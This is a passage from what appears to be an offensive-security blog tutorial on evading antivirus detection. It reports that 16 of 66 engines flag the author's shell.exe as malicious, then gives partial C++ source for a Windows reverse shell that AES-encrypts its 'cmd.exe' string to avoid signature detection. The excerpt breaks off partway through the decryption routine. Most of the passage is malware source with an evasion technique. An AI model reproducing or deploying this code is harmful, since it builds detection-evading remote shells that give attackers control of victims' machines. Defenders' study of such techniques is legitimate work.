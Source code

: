 [https://www.virustotal.com/gui/file/65630475fcf4c6c3c938dfc12e10aca34ebe41237f27e824ccc17652a4a74bfd](https://www.virustotal.com/gui/file/65630475fcf4c6c3c938dfc12e10aca34ebe41237f27e824ccc17652a4a74bfd)

**So, 16 of of 66 AV engines detect our file as malicious**. Because de facto our `shell.exe` file is malware.

Let’s go to try to reduce the number of AV engines that will detect our malware.
For this we try encrypt our command `cmd.exe` string. For simplicity, we use AES encryption for our case.

Let’s take a look at how to use AES to encrypt and decrypt our command string.

Update our simple reverse shell code:
```cpp
/*
shell-aes.cpp
author: @cocomelonc
windows reverse shell with AES encryption example
*/
#include <winsock2.h>
#include <stdio.h>
#include <iostream>
#include <wincrypt.h>
#pragma comment(lib, "w2_32")
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")

WSADATA wsaData;
SOCKET wSock;
struct sockaddr_in hax;
STARTUPINFO sui;
PROCESS_INFORMATION pi;

// encrypted command cmd.exe (with AES)
unsigned char myCmd[] = { };
unsigned int myCmdL = sizeof(myCmd);

// AES key
unsigned char mySecretKey[] = { };

// AES decrypt
int AESDecrypt(char * data, unsigned int data_len, char * key, size_t keylen) {
  HCRYPTPROV hProv;
  HCRYPTHASH hHash;
  HCRYPTKEY hKey;

  if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)){
    return -1;
  }
  if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)){
    return -1;
  }
  if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)){
    return -1;
  }
  if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey)){
    return -1;
  }
  if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, data, &data_len)){
    return -1;
  }

  CryptReleaseContext(hProv, 0);
  CryptDestroyHash(hHash);
  CryptDestroyKey(hKey);
```